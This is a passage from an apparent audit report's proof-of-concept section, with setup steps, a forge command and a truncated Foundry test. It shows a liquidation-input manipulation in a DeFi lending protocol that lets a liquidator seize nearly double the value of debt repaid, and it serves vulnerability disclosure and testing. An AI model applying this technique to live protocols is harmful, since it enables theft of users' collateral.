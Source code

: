 ## Proof of Concept

This section provides a coded PoC. 

Place the `testPoCLiquidateInputManipulation()` in the `./protocol-v2/test/integration/LiquidationTest.t.sol` file, declare the following `import` directive at the top of the test file: `import { Math } from "@openzeppelin/contracts/utils/math/Math.sol";`, and apply the `Math` library to the `LiquidationTest` contract using the statement: `using Math for uint256;`.

To run the test, execute the command: `forge t --nmt "Fork|invariant" --mt testPoCLiquidateInputManipulation`.

The PoC shows that a liquidator can repay only the debt assets of a `1e18` value in ETH but can seize all of the liquidating position's collateral assets (total seized value == `1.99e18` in ETH).

```solidity
function testPoCLiquidateInputManipulation() public {
    // Required:
    //  - Import lib: import { Math } from "@openzeppelin/contracts/utils/math/Math.sol";
    //  - Apply lib: using Math for uint256;

    vm.startPrank(user);
    asset2.approve(address(positionManager), 1e18);

    // Deposit 1e18 asset2, borrow 1e18 asset1 (similar to the testSeizeTooMuch())
    Action[] memory actions = new Action[](7);
    (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
    actions[1] = deposit(address(asset2), 1e18);
    actions[2] = addToken(address(asset2));
    actions[3] = borrow(fixedRatePool, 1e18);
    actions[4] = approve(address(mockswap), address(asset1), 1e18);
    bytes memory data = abi.encodeWithSelector(SWAP_FUNC_SELECTOR, address(asset1), address(asset3), 1e18);
    actions[5] = exec(address(mockswap), 0, data);
    actions[6] = addToken(address(asset3));
    positionManager.processBatch(position, actions);
    vm.stopPrank();
    assertTrue(riskEngine.isPositionHealthy(position));

    (uint256 totalAssetValue, uint256 totalDebtValue, uint256 minReqAssetValue) = riskEngine.getRiskData(position);

    assertEq(totalAssetValue, 2e18);
    assertEq(totalDebtValue, 1e18);
    assertEq(minReqAssetValue, 2e18);

    // Construct liquidator data #1 (without input manipulation)
    DebtData memory debtData_withoutManipulation = DebtData({ poolId: fixedRatePool, amt: type(uint256).max }); // 1e18
    DebtData[] memory debts_withoutManipulation = new DebtData[](1);
    debts_withoutManipulation[0] = debtData_withoutManipulation; // 1e18

    AssetData memory asset2Data = AssetData({ asset: address(asset2), amt: 1e18 }); // Seize all position's collateral (asset2)
    AssetData memory asset3Data = AssetData({ asset: address(asset3), amt: 1e18 }); // Seize all position's collateral (asset3)
    AssetData[] memory assets = new AssetData[](2);
    assets[0] = asset2Data;
    assets[1] = asset3Data;

    // Attempt to liquidate before price moves
    asset1.mint(liquidator, 1e18);
    vm.startPrank(liquidator);
    asset1.approve(address(positionManager), 1e18);
```